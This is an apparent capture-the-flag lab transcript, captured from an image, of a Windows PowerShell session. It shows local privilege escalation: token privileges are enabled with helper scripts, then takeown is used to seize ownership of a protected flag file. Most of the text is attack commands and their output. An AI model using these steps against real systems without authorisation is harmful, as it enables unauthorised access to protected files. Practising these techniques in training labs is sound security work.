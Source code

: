 
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled

cd c:\Tools

Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1

PS C:\Tools> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled


PS C:\Tools> Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Express
ion={ (Get-Acl $_.FullName).Owner }}

FullName            LastWriteTime        Attributes Owner
--------            -------------        ---------- -----
C:\TakeOwn\flag.txt 6/4/2021 11:24:47 AM    Archive

PS C:\Tools> cmd /c dir /q 'C:\TakeOwn\flag.txt'
 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B

 Directory of C:\TakeOwn

06/04/2021  10:24 AM                22 ...                    flag.txt
               1 File(s)             22 bytes
               0 Dir(s)  18,235,830,272 bytes free

PS C:\Tools> takeown /f 'C:\TakeOwn\flag.txt'
SUCCESS: The file (or folder): "C:\TakeOwn\flag.txt" now owned by user "WINLPE-SRV01\htb-student".

PS C:\Tools> Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.F
ullname).Owner}}

Name     Directory  Owner
----     ---------  -----
flag.txt C:\TakeOwn WINLPE-SRV01\htb-student

